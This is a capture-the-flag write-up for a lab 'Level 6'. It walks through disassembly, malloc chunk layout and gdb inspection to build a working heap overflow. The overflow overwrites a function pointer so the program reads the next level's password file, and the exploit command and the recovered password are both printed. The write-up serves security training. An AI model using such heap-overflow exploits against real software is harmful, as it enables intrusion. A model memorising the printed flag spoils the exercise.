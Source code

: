 ## LEVEL 6
---
### Starting from now, you will find explanations in the disassembled file for each line in few upcoming levels. This will provide a better understanding of the payload and the solution.
---

Most important parts to understand :
```assembly
n:
    0x08048461 <+13>:	call   0x8048370 <system@plt> ; Call system with "/bin/cat /home/user/level7/.pass" as argument
```
    
```assembly
m:
    0x08048475 <+13>:	call   0x8048360 <puts@plt> ; Call puts with "Nope" as asgument.
```
```assembly
main:
    0x0804848c <+16>:	call   0x8048350 <malloc@plt> ; Allocate 64 in heap 
    0x0804849c <+32>:	call   0x8048350 <malloc@plt> ; Allocate 4 bytes in heap;
    0x080484a5 <+41>:	mov    $0x8048468,%edx ; Set m function address in $edx
    0x080484ae <+50>:	mov    %edx,(%eax) ; The second allocated address point to m
    0x080484c5 <+73>:	call   0x8048340 <strcpy@plt> ; Call strcpy with buffer as first arg and argv[1] as second
    0x080484d0 <+84>:	call   *%eax ; Call the function of $eax
```

This level introduces something we didn't see in previous levels: malloc and strcpy. In this level, there are two calls to malloc. The first one is used to store a copy of argv[1], and the second one is used to store a pointer to a function. By default, this pointer is set to the m function. I will utilize this pointer to call n instead of m. However, before doing that, we need to understand a particularity of malloc allocation and storage compared to the stack.

The first particularity is the way allocations are made in the heap. When you create and call a function, the stack moves downward in memory to allocate the necessary space. For example, if `$esp` is at 0x100 and I call a function that allocates `0x20` bytes, then `$esp` will be at `0xe0`. However, in the heap, the allocations are made in the opposite manner. If I allocate `0x20` bytes in the heap, the allocation will be from `0x0` to `0x20`, and the subsequent one will be from `0x20` to `0x40`. This detail is not particularly relevant for this project, but it is useful to know for a better understanding of how program memory operates.

The second particularity is how `malloc` allocates memory. If I call `malloc(60)` my program won't allocate 60, it will allocates much bigger memory depending of many things like your CPU, OS, RAM, etc. This is because `malloc` allocates memory in chunks. For example, if I call `malloc(60)` on my computer, it will allocate 72 bytes. If I call `malloc(1000)` it will allocate 4096 bytes. This is because `malloc` allocates memory in chunks. If I call `malloc(8)` it will allocate 16 bytes, and if I call `malloc(16)` it will allocate 24 bytes. This is important to know because if I call `malloc(60)` and then `malloc(4)`, the second allocation will be in the same chunk as the first one. This means that if I write more than 60 bytes in the first allocation, I will overwrite the second allocation. This is what I will use to call the n function instead of the m function. All the numbers in this paragraph are examples, and they may vary depending on your computer.

Now that we understand how the heap works, we can use the second allocation to overwrite the pointer to the m function with the pointer to the n function. To do this, we need to understand where exactly is the address to overwrite, and what is the length between the first allocation and the second one.
```shell
(gdb) b *0x080484ca
Breakpoint 1 at 0x80484ca
(gdb) r AAAA
The program being debugged has been started already.
Start it from the beginning? (y or n) y
Starting program: /home/user/level6/level6 AAAA

Breakpoint 1, 0x080484ca in main ()
(gdb) x/32 0x0804a008
0x804a008:	0x41414141	0x00000000	0x00000000	0x00000000
0x804a018:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a028:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a038:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a048:	0x00000000	0x00000011	0x08048468	0x00000000
```

Perfect, so the first address is `0x804a008` and the second one is `0x804a050`. The length between the two is `0x48` or `72` in decimal. Now we can write our exploit. We will write 72 bytes of garbage, and then the address of the n function. The address of the n function is `0x08048454`. Perfect now we have everything we need, we can write our exploit.

```shell
$ ./level6 `python -c 'print "\x90"*72 + "\x54\x84\x04\x08"'`
f73dcb7a06f60e3ccc608990b0a046359d42a1a0489ffeefd0d9cb2d7c9cb82d
```
